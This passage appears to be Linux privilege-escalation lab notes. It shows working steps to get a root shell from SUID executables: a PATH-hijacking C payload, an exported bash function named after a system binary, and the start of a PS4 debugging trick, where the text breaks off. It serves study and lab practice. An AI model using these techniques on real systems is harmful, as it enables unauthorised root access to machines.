 If an executable inherits the user's PATH environment variable and doesn't specify absolute 
paths when executing programs it can be exploited.

You can compile malicious code of the same name as the program and add the dir path to the 
PATH variable to spawn a root shell.

Example:

When you run `strings /usr/local/bin/suid-env` you can see suid-env starts apache2 with the 
command `service apache2 start` and doesn't use the absolute path.

service.c:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

Run `gcc -o service /path/to/service.c` to compile and then add the directory containing 
service.c to the PATH environment variable to spawn a root shell:

`PATH=.:$PATH /usr/local/bin/suid-env`

### SUID / SGID Executables - Abusing Shell Features (#1)

In bash versions <4.2-048 it's possible to define shell functions with names that resemble 
file paths, then export these functions so that they're used instead of any executable at 
that file path.

Example:

/usr/local/bin/suid-env2 runs apache2 with /usr/sbin/service so to get a root shell you can
define a function named /usr/sbin/service and export it:

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

When you run the suid-env2 executable a root shell will spawn.

### SUID / SGID Executables - Abusing Shell Features (#2)

**Does not work on Bash versions >= 4.4**

When in debugging mode Bash uses the PS4 environment variable to display an extra prompt 
for debugging statements.

You can run an executable with bash debugging enabled and the PS4 variable set to an 
embeddded command which creates an SUID version of /bin/bash.

Example:
